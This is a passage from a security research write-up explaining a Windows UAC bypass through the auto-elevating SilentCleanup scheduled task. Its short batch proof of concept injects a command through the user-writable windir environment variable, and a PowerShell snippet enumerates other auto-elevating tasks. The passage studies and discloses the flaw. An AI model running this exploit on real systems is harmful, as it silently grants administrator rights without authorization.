

The reason this is interesting is it's a marked as auto-elevating (so will silently run code as UAC admin if the caller is a split-token administrator) and it can be manually started by the non-administrator user.

We can see the Principal property, which determines what account the task runs as and the Actions property which determines what to run. In the Principal property we can see the Group to run as is Authenticated Users which really means it will run as the logged on user starting the task. We also see the RunLevel is set to Highest which means the Task Scheduler will try and elevate the task to administrator without any prompting.
It's using an environment variable as part of the path, and in UAC scenarios these can be influenced by a normal user by writing to the registry key HKEY_CURRENT_USER\Enviroment and specifying a REG_SZ value.
PoC UACBypassSilentCleanup.bat
#Fixed on latest versions of Windows 10
reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM "
schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
If you want to find other potential candidates the following Powershell script will find all tasks with
executable actions which will auto elevate. On my system there are 4 separate tasks, but only one (the SilentCleanup task) can be executed as a normal user, so the rest are not exploitable. Good thing I guess.
$tasks = Get-ScheduledTask |
Where-Object { $_.Principal.RunLevel -ne "Limited" -and
$_.Principal.LogonType -ne "ServiceAccount" -and
$_.State -ne "Disabled" -and
$_.Actions[0].CimClass.CimClassName -eq "MSFT_TaskExecAction" }